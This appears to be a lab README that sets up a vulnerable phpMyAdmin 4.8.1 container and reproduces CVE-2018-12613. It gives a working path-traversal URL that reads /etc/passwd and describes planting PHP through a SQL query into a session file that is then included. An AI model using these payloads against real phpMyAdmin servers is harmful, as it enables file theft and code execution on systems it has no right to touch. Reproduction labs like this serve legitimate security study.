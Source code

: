 # phpmyadmin 4.8.1 Remote File Inclusion Vulnerability (CVE-2018-12613)

[中文版本(Chinese version)](README.zh-cn.md)

PhpMyAdmin is a free software tool written in PHP, intended to handle the administration of MySQL over the Web. The vulnerability is in the `index.php`, causing  files iclusion vulnerabilitiy.

Reference links:

- https://mp.weixin.qq.com/s/HZcS2HdUtqz10jUEN57aog
- https://www.phpmyadmin.net/security/PMASA-2018-4/

## Setup

Run the following command to start phpmyadmin 4.8.1:

```
docker-compose up -d
```

After the environment starts, visit `http://your-ip:8080`. The phpmyadmin is "config" mode, so we can login directly.

## Exploit

Visit `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`, the result indicates that the file inclusion vulnerability exist:

![](1.png)

We can execute `SELECT '<?=phpinfo()?>';`, then check your sessionid (the value of phpMyAdmin in the cookie), and then include the session file:

![](2.png)
